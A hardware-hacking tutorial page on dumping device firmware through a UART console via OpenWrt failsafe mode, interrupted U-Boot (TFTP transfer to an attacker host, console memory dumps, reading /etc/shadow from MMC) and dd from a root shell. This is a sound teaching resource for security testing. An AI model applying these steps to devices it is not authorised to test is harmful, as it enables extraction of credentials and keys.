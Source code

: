 # Extract Firmware using UART

#### At this point you should have:

* Understand what UART does (if not check: [UART](./))
* Identified UART pins (if not check:[ Identify UART](uart-from-start-to-finish.md))
* Got a working connection to UART (if not check: [Connect to UART](connect-to-uart.md))

#### Not all UART interfaces are the same. Infact manufacturers could output actually anything over it. So there is no guarante you can abuse UART to dump firmware or get a shell on the device. But there are common methods, which we want to discuss further:

{% tabs %}
{% tab title="Failsafe mode" %}
Some manufacturers build a failsafe mode in their devices, which is designed as a recovery option, if the device is not operating correctly. An example for this is OpenWRT, which will print something like this in the bootlog:

```
Press the [f] key and hit [enter] to enter failsafe mode
Press the [1], [2], [3] or [4] key and hit [enter] to select the debug level  
```

Pressing `F`  will give us a root shell:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption><p>OpenWrt command command shell</p></figcaption></figure>

From here we can check if the root-filesystem is already been mounted and we can look for:

* /etc/shadow hashes
* ssh private keys
* other credentials
{% endtab %}

{% tab title="U-Boot" %}
If U-Boot is used, chances are that the "stop autoboot" function may not be disabled. Here we have to press any key within a certain timespan (for example 5 sec) and we will be provided with a U-Boot shell

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Typing `help` will give us a list of all available commands

To dump the firmware, we can then use one of these options:

1. **Using TFTP:**
   1. On your attacker host:
      1. Set up a TFTP server `sudo apt install tftpd-hpa` (files will be stored in`/srv/tftp`)
      2. Create a firmware.bin file, as in TFTP that can't be done by the client:
         1. ```
            cd /srv/tftp
            sudo touch firmware.bin
            sudo chmod 666 firmware.bin
            ```
   2. In U-Boot:
      1. Setup IP-Adresses:
         1. ```
            setenv ipaddr <IP of target> (e.g.: 10.0.0.2)
            setenv serverip <IP of attacker host> (e.g.: 10.0.0.1)
            ```
      2. check if IP Adress are saved: `printenv`
   3. Initialize the flash with `sf probe 0`.
   4. Copy the flash contents to RAM (adjust offset and size):&#x20;
      1. `sf read <addr in RAM> <offset in flash> <size>`
      2. `sf read 0x82000000 0x0 0x1000000`. (=16MB in this case)
   5. Transfer the data with TFTP:&#x20;
      1. `tftp <addr> <filename> <size>`
      2. `tftp 0x82000000 firmware.bin 0x1000000`.
2. We can also dump it in the console: (CAN BE SLOW!)
   1. Read data:
      1. `md.b <offset to read from> <number of bytes to read>`
      2. example: `md.b 0x82000000 0x1000000`
   2. Save data to file using `CTRL-A L` in minicom for example (has to be trimmed)
3. If we want to dump from an MMC:
   1.  ```bash
       #list available MMCs
       mmc list
       # select an MMC to dump (we have to select one else next commands fail)
       mmc dev 0
       #get info of mmc
       mmc info
       # get partition to see which partition we wanna dump (e.g. rootfs)
       mmc part
       # search in partition
       ext4ls mmc <device>:<partition> <path>
       ext4ls mmc 1:8 /home/root
       # read file from MMC to RAM
       ext4load mmc <device>:<partition> <memory_address in ram> <file_path>
       ext4load mmc 1:8 0xC6200000 /etc/shadow
       # show the file from memory
       md.b <memory_address in ram> <size>
       md.b 0xC6200000 0x43C
       ```

       Tool that does these steps automatically: https://github.com/nmatt0/firmwaretools
{% endtab %}

{% tab title="Root-shell" %}
If you drop directly into a root shell or if you can figure out the root-password (e.g. default creds), you can simply `dd` the partition to a usb stick or transfer it another way.

Example:

```bash
sudo dd if=/dev/sda of=/dev/sdb bs=4M status=progress
```

Replace:

* `/dev/sda` with your root filesystem device
* `/dev/sdb` with your USB stick device

Ensure you verify the correct device paths to avoid overwriting important data. You can use `lsblk` or `fdisk -l` to check your devices.
{% endtab %}
{% endtabs %}

## Analyze firmware

* Using `binwalk firmware.bin` we can try to analyze the firmware and extract sensitive information
* check the "Analyze Firmware" chapter

## Resources

[https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart](https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart)\
[https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd](https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd)
